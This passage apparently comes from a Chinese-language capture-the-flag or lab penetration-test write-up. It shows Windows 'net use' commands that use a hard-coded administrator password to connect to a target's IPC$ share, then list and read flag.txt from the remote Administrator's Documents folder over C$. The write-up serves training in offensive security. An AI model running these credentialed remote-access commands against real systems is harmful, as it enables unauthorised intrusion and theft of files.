 ![image-20250406231656543](./assets/image-20250406231656543.png)

失败





利用ips执行命令

```
net use \\192.168.93.10\ipc$ zxcASDqw123!! /user:test\administrator
net use
```

![image-20250406233038871](./assets/image-20250406233038871.png)



其中Document中存在flag

```
dir \\192.168.93.10\C$\users\Administrator\Documents
type \\192.168.93.10\C$\users\Administrator\Documents\flag.txt
```

![image-20250406233230276](./assets/image-20250406233230276.png)
